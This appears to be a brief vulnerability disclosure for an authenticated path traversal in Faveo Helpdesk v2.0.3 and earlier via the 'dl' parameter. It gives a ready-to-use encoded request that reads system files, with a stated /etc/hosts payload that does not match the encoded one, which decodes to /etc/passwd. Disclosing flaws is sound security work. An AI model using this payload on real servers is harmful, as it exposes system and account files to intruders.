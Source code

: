 Vulnerability: File Traversal via dl

URL: ```https://192.168.124.130/logs?dl=Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA%3d%3d```

Payload: ```../../../../../../../../../../../../../../../../etc/hosts```

Action to trigger: None

Note: The payload needs to be base64 encoded and then URL encoded

Version: ‎Version v2.0.3 and prior

Authenticated: Yes

User: Admin

Vulnerable Parameter: dl


https://github.com/ladybirdweb/faveo-helpdesk

![](https://github.com/4rdr/proofs/blob/main/gifs/faveo-helpdesk_2.0.3_File_Traversal_via_dl.gif)
